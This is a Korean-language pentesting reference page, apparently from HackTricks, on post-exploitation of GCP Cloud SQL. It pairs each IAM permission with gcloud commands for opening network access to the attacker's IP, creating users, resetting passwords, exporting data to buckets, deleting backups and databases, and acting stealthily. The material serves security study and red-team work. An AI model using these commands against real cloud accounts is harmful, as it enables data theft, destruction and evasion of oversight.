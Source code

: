 # GCP - Cloud SQL Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## Cloud SQL

Cloud SQL에 대한 자세한 정보는 다음을 확인하세요:

{{#ref}}
../gcp-services/gcp-cloud-sql-enum.md
{{#endref}}

### `cloudsql.instances.update`, ( `cloudsql.instances.get`)

데이터베이스에 연결하려면 **데이터베이스 포트에 대한 접근 권한**과 **사용자 이름** 및 **비밀번호**를 알아야 하며, IAM 요구 사항은 없습니다. 따라서 데이터베이스에 공용 IP 주소가 있다고 가정할 때 접근하는 쉬운 방법은 허용된 네트워크를 업데이트하고 **자신의 IP 주소가 접근할 수 있도록 허용하는 것입니다**.
```bash
# Use --assign-ip to make the database get a public IPv4
gcloud sql instances patch $INSTANCE_NAME \
--authorized-networks "$(curl ifconfig.me)" \
--assign-ip \
--quiet

mysql -h <ip_db> # If mysql

# With cloudsql.instances.get you can use gcloud directly
gcloud sql connect mysql --user=root --quiet
```
**`--no-backup`**를 사용하여 데이터베이스의 **백업을 중단**할 수도 있습니다.

이것이 요구 사항이므로 **`cloudsql.instances.connect`** 및 **`cloudsql.instances.login`**의 권한이 무엇인지 확실하지 않습니다. 아는 분은 PR을 보내주세요!

### `cloudsql.users.list`

데이터베이스의 **모든 사용자 목록**을 가져옵니다:
```bash
gcloud sql users list --instance <intance-name>
```
### `cloudsql.users.create`

이 권한은 **데이터베이스 내에 새로운 사용자를 생성**할 수 있게 해줍니다:
```bash
gcloud sql users create <username> --instance <instance-name> --password <password>
```
### `cloudsql.users.update`

이 권한은 데이터베이스 내에서 **사용자를 업데이트**할 수 있게 해줍니다. 예를 들어, 비밀번호를 변경할 수 있습니다:
```bash
gcloud sql users set-password <username> --instance <instance-name> --password <password>
```
### `cloudsql.instances.restoreBackup`, `cloudsql.backupRuns.get`

백업에는 **오래된 민감한 정보**가 포함될 수 있으므로 확인하는 것이 흥미롭습니다.\
**데이터베이스 내에서 백업 복원**:
```bash
gcloud sql backups restore <backup-id> --restore-instance <instance-id>
```
더 은밀하게 수행하기 위해서는 현재 실행 중인 데이터베이스 대신 새 SQL 인스턴스를 생성하고 그곳에서 데이터를 복구하는 것이 권장됩니다.

### `cloudsql.backupRuns.delete`

이 권한은 백업을 삭제할 수 있습니다:
```bash
gcloud sql backups delete <backup-id> --instance <instance-id>
```
### `cloudsql.instances.export`, `storage.objects.create`

**데이터베이스를** Cloud Storage Bucket에 내보내서 거기에서 접근할 수 있도록 합니다:
```bash
# Export sql format, it could also be csv and bak
gcloud sql export sql <instance-id> <gs://bucketName/fileName> --database <db>
```
### `cloudsql.instances.import`, `storage.objects.get`

**Cloud Storage 버킷에서 데이터베이스 가져오기** (덮어쓰기):
```bash
# Import format SQL, you could also import formats bak and csv
gcloud sql import sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.databases.delete`

DB 인스턴스에서 데이터베이스를 삭제합니다:
```bash
gcloud sql databases delete <db-name> --instance <instance-id>
```
{{#include ../../../banners/hacktricks-training.md}}
